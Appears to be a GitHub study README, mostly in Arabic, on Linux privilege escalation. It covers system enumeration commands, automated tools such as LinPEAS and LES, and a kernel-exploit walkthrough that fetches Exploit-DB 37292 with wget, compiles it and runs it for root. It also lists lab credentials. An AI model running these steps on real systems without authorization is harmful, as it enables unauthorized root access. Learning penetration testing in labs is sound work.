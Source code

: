 # Linux Privilege Escalation

![image](https://github.com/user-attachments/assets/7d5663ba-af28-421d-823d-67a0c93c8b7f)

<details>
  <summary>Enumeration</summary>


```
Username: karen

Password: Password1
```

  

## 1. Basic Info (معلومات عامة عن النظام)

| أمر        | وظيفته                                                    |
| ---------- | --------------------------------------------------------- |
| `whoami`   | يعرفك اسم المستخدم اللي انت عليه حاليًا                   |
| `id`       | يوضح الـ UID/GID والصلاحيات المرتبطة بيك                  |
| `hostname` | اسم الجهاز – أحيانًا مفيد لو الجهاز له اسم يدل على وظيفته |
| `uname -a` | إصدار الكرنل + المعمارية (x86\_64 أو غيره)                |

![image](https://github.com/user-attachments/assets/6363ac11-bf41-4ae1-9b7d-b9c42e67e1fc)


---

## 2. OS Version & Kernel

| أمر                   | وظيفته                                                                        |
| --------------------- | ----------------------------------------------------------------------------- |
| `cat /etc/issue`      | يطبع اسم وتفاصيل الـ Linux distro (مثلاً Ubuntu 20.04)                        |
| `cat /etc/os-release` | ملف رسمي فيه اسم النسخة + ID + Version                                        |
| `cat /proc/version`   | معلومات عن الكرنل + إذا كان GCC موجود (مهم لو عايز تـ compile local exploits) |



---

## 3. Environment

| أمر          | وظيفته                                                                                            |
| ------------ | ------------------------------------------------------------------------------------------------- |
| `env`        | يطبع كل المتغيرات البيئية، ممكن تلاقي فيها tokens أو مسارات غريبة                                 |
| `echo $PATH` | بيعرفك المسارات اللي النظام بيشوف فيها الملفات القابلة للتنفيذ – مهم جدًا لو فيه مسار قابل للحقن! |


![image](https://github.com/user-attachments/assets/aab5ff77-0ab8-4a6a-b7c5-db330f0e8a2f)

---

## 4. Users and Groups

| أمر               | وظيفته                                                                 |
| ----------------- | ---------------------------------------------------------------------- |
| `cat /etc/passwd` | يطبع كل المستخدمين الموجودين على النظام                                |
| `cat /etc/group`  | يشوف المجموعات اللي موجودة واللي ممكن تكون حساسة (مثلاً: docker، sudo) |

![image](https://github.com/user-attachments/assets/7b0e7204-dc60-4b97-981c-040c90fd6ccf)

![image](https://github.com/user-attachments/assets/ed5096cb-2831-45c1-a506-52bf1271e7f2)


---


## 5. Crontab / Scheduled Jobs

| أمر                 | وظيفته                                                                    |
| ------------------- | ------------------------------------------------------------------------- |
| `crontab -l`        | المهام المجدولة للمستخدم الحالي                                           |
| `ls -la /etc/cron*` | يشوف كل ملفات الـ crontab في النظام – أحيانًا تلاقي سكريبت بيتنفذ بـ root |
| `cat /etc/crontab`  | المهام المجدولة للنظام ككل – ممكن تديك وسيلة للاستغلال                    |



---

## 6. Processes & Services

| أمر                             | وظيفته                                                                   |
| ------------------------------- | ------------------------------------------------------------------------ |
| `ps aux`                        | يعرض كل العمليات الجارية – ممكن تلاقي برنامج بيشغله root                 |
| `top` أو `htop`                 | مشاهدة تفاعلية للعمليات                                                  |
| `netstat -tulnp` أو `ss -tulnp` | الخدمات اللي شغالة على البورتات – ممكن تلاقي حاجة داخليًا بس (localhost) |


![image](https://github.com/user-attachments/assets/16f4a91d-8133-481a-b79a-eb75ecbcb0f5)


![image](https://github.com/user-attachments/assets/e919e12d-1c12-405b-81cc-2d4a55b83133)
![image](https://github.com/user-attachments/assets/ec996032-2bf8-411f-8b80-590ed7b4e971)

![image](https://github.com/user-attachments/assets/03193a5c-21cf-4abe-b00a-616bb3e026f8)

![image](https://github.com/user-attachments/assets/a8f6abd4-62c9-4fe1-a78d-942b6929c021)

---

## 7. File System Permissions

| أمر                                     | وظيفته                                                                   |
| --------------------------------------- | ------------------------------------------------------------------------ |
| `find / -perm -4000 2>/dev/null`        | يبحث عن ملفات SUID – ملفات بتشتغل بصلاحيات المالك، ممكن تديك root access |
| `find / -perm -u=s -type f 2>/dev/null` | بديل للبحث عن SUID executables                                           |
| `find / -writable -type d 2>/dev/null`  | مجلدات قابلة للكتابة – ممكن تعمل فيها استغلال                            |


![image](https://github.com/user-attachments/assets/5c13b75e-a6c9-4e51-aa7d-0702d534d47c)

![image](https://github.com/user-attachments/assets/fde332e2-f181-44c0-b326-8f0c9150e57a)

![image](https://github.com/user-attachments/assets/4a89aa31-9be3-4e87-85df-0d1ec5ad4710)



---







## ✅ ملخص سريع :

| المحور           | الهدف                                         |
| ---------------- | --------------------------------------------- |
| OS & Kernel Info | تشوف لو في ثغرات على النسخة دي                |
| Environment      | PATH وقيم مهمة ممكن تسبب استغلال              |
| Users & Groups   | هل انت في مجموعة حساسة؟                       |
| Cron Jobs        | هل في سكريبت بيشتغل بوقت محدد ممكن تعدله؟     |
| Processes        | هل في برامج بتشتغل بصلاحيات أعلى؟             |
| SUID Files       | ممكن تستغل ملف بـ SUID عشان تاخد صلاحيات أعلى |






---
---





![image](https://github.com/user-attachments/assets/b8d06c67-4553-4990-ad30-9034da8eaf34)






  
</details>


















<details>
  <summary>Automated Enumeration Tools</summary>

# 🔐 Linux Privilege Escalation Enumeration Tools

قائمة بأهم الأدوات المفتوحة المصدر التي تُستخدم لتجميع معلومات النظام (Enumeration) من أجل اكتشاف فرص للترقية إلى صلاحيات أعلى (Root).

---

## 🥇 1. [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- 🔎 من أقوى الأدوات الآلية لتجميع كل شيء تقريبًا.
- تبحث عن:
  - صلاحيات خاطئة في الملفات
  - SUID/SGID binaries
  - ملفات cron
  - كلمات مرور مكشوفة
  - خدمات مشغلة بصلاحيات عالية
- 🧠 تحتوي على خوارزميات للكشف عن misconfigurations والفرص الواضحة للاستغلال.
- ✅ مناسبة للأنظمة الحديثة والمتنوعة.

---

## 🥈 2. [LinEnum](https://github.com/rebootuser/LinEnum)

- 📜 سكربت Bash تقليدي لكن شامل.
- يقوم بجمع معلومات مثل:
  - بيانات النظام والمستخدم
  - cron jobs
  - network config
  - ملفات SUID/SGID
- 💡 أقل تفاعلية من LinPEAS، لكنه خفيف وسهل التشغيل.
- مفيد في حالات محدودة الموارد.

---

## 🥉 3. [LES - Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)

- 🔍 يحلل إصدار الكرنل ويقترح عليك Exploits معروفة.
- مش بيعمل Enumeration كامل، لكنه:
  - يقارن الكرنل الحالي بقاعدة بيانات فيها Exploits قديمة
  - يعطيك توصيات مباشرة
- مناسب بعد معرفة إصدار الكرنل من `uname -a`.

---

## 4. [Linux Smart Enumeration (LSE)](https://github.com/diego-treitos/linux-smart-enumeration)

- 🧠 أداة ذكية تعمل بـ 3 أوضاع:
  - Quick
  - Standard
  - Thorough
- تعرض النتائج بتنسيق واضح وسهل الفهم.
- مصممة لتكون "هادئة" – لا تترك أثر واضح في النظام.
- مفيدة للاختبارات الهادئة (Low OPSEC).

---

## 5. [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

- 📘 سكربت Python قديم نسبيًا لكنه مفيد.
- يعطيك ملخص لبيئة التشغيل، الصلاحيات، الملفات الغريبة.
- مناسب مع الأنظمة القديمة أو أنظمة Python-only.

---

## 🧰 ملاحظات عامة:

| أداة | نوعها | الأفضل لـ |
|------|--------|------------|
| LinPEAS | شامل + ذكي | اكتشاف فرص متعددة + تحليل شامل |
| LinEnum | بسيط + مباشر | بيئة محدودة أو سكربت سريع |
| LES | اقتراح Exploits فقط | بعد معرفة kernel |
| LSE | ذكي + منظم | الاختبارات الدقيقة بدون ضوضاء |
| LinuxPrivChecker | خفيف + Python | بيئات قديمة أو محدودة |

---

> 💡 **نصيحة:** الأفضل دائمًا تبدأ بـ LinPEAS أو LSE، وبعد كده تستخدم LES لو فيه فرصة لاستغلال الكرنل.


  
</details>

























<details>
  <summary>Privilege Escalation: Kernel Exploits</summary>


# 🚀 Linux Privilege Escalation – Kernel Exploits

## 🎯 الهدف
استغلال ثغرات في نواة النظام (Kernel) للترقية من مستخدم عادي إلى root.

---

## 🧾 1. تحديد إصدار الكرنل

```bash
uname -r
```

مثال إخراج:
```
3.13.0-24-generic
```

---

## 🔍 2. البحث عن ثغرات مناسبة

### أدوات مساعدة:
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Exploit-DB](https://www.exploit-db.com)
- `searchsploit` (لو مثبت عندك)

### مثال باستخدام LES:
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

---

## 🛠️ 3. تجربة Exploit

### خطوات عامة:

1. تحميل الكود:
```bash
wget https://www.exploit-db.com/raw/37292 -O exploit.c
```

2. تجميع (Compile):
```bash
gcc exploit.c -o exploit
```

3. تشغيل:
```bash
./exploit
```

4. التحقق من الصلاحيات:
```bash
whoami
id
```

---

## ⚠️ ملاحظات مهمة

| نقطة | توضيح |
|------|--------|
| ❗ Compiler (مثل gcc) لازم يكون متاح | لو مش موجود، compile من جهازك وانقل الملف |
| ⚙️ بعض الثغرات مش بتشتغل دايمًا | جرب أكثر من exploit |
| 📛 Kernel Exploits خطيرة | ممكن تسبب system crash أو shell غير مستقرة |
| 🧠 استخدم Virtual Machine أو اختبار فقط | لتفادي تلف النظام |

---

## ✅ خطوات التلخيص

| الخطوة | الأداة |
|--------|--------|
| تحديد إصدار الكرنل | `uname -r` |
| اقتراح ثغرات | LES، Exploit-DB، searchsploit |
| تحميل واستغلال | `wget`, `gcc`, `./exploit` |
| التأكد من النجاح | `whoami`, `id` |

---

> 💡 **نصيحة:** دائمًا احتفظ بمجموعة Exploits جاهزة، واختبرها في بيئة آمنة فقط.





---
---

![image](https://github.com/user-attachments/assets/390d0b3e-a279-4b22-bfd2-df265e05b60e)

![image](https://github.com/user-attachments/assets/3945f3af-cdf2-4342-9412-7dc108059dd7)

```
cd /tmp
wget https://www.exploit-db.com/raw/37292 -O exploit.c
```



  
</details>

































